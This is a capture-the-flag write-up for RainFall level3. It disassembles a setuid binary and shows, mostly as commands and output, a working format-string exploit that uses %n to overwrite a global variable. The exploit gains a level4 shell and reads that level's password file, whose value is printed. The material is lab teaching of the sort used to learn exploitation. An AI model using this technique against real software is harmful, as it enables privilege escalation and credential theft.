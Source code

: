 # Level 3

- We login as user level3:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

```
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3

level3@RainFall:~$ gdb level3
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```


- Let's identify the calls and jump:
```
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
```
>`0x8049860 <stdin@@GLIBC_2.0>:   0xb7fd1ac0`
>buffer size is 0x200 bytes
>buffer starts at `-0x208(%ebp)`
>Prompt the user for up to 512 bytes.

```
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
```
>Call `<printf@plt>` with our buffer as first parameter.

```
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
```
>`0x804988c <m>:  0x00000000`
>After the call to `<printf@plt>`, compare the value located at `0x804988c` with the constant 0x40 (64 in decimal). If the two values differ, we `leave` and then `ret`, otherwise we continue.

```
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
```
>`0x8049880 <stdout@@GLIBC_2.0>:  0xb7fd1a20`
>`0x8048600:       "Wait what?!\n"`
>Print `"Wait what?!\n"` into `<stdout>`.

```
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
```
>`0x804860d:       "/bin/sh"`
>Open a terminal.


- This exercice is an introduction to [format string exploit](https://axcheron.github.io/exploit-101-format-strings/).
The content of our buffer is used as first parameter of the `<printf@plt>` function, so we can read/write anything from/to the stack.
```
level3@RainFall:~$ echo -ne 'BBBB %x %x %x %x %x \n' | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520
```

```
level3@RainFall:~$ echo -ne 'BBBB %4$x \n' | ./level3
BBBB 42424242
```

```
level3@RainFall:~$ echo -ne '\x8c\x98\x04\x08 %4$x \n' | ./level3
 804988c
```


- With `<printf@plt>`, `%x` allows us to display a hexadecimal value, and `%n` allows us to assign a value to an address that corresponds to the number of characters written so far, so:
```
level3@RainFall:~$ gdb level3
...
(gdb) b*0x080484df
```

```
(gdb) r < <(echo -ne '\x8c\x98\x04\x08 %4$n \n')
...
(gdb) x/d 0x804988c
0x804988c <m>:  5
```

```
(gdb) r < <(echo -ne '\x8c\x98\x04\x08 %58x %4$n \n')
...
(gdb) x/d 0x804988c
0x804988c <m>:  64
```

```
level3@RainFall:~$ (echo -ne '\x8c\x98\x04\x08 %58x %4$n \n'; cat) | ./level3
...
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```